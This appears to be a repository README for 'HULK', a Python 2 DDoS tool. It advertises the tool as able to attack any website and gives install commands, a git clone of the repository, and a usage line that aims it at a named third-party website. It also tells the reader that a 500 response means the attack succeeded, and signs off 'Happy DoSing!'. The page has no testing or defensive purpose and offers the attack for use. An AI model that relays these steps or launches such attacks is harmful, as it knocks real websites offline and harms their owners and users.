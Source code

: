 # HULK-DDOS-ATTACK
The Best DDos Tools To Attack Any Website.
This contains a file named hulk.py Hulk.py is one of the best DDoS tools which is written in python. Installation commands:- 
pkg install python2 
git clone https://github.com/ULTRA-ADNAN-404/HULK-DDOS-ATTACK
chmod +x hulk.py
Usage:- python2 hulk.py "link" Example:- python2 hulk.py http://www.kalkaeducationalsociety.com 
If the result come RESPONSE CODE 500 then your DoS attack is successful. Handshake!! But some websites blocks you ip which may also show RESPONSE CODE 500 Happy DoSing ! -----END------
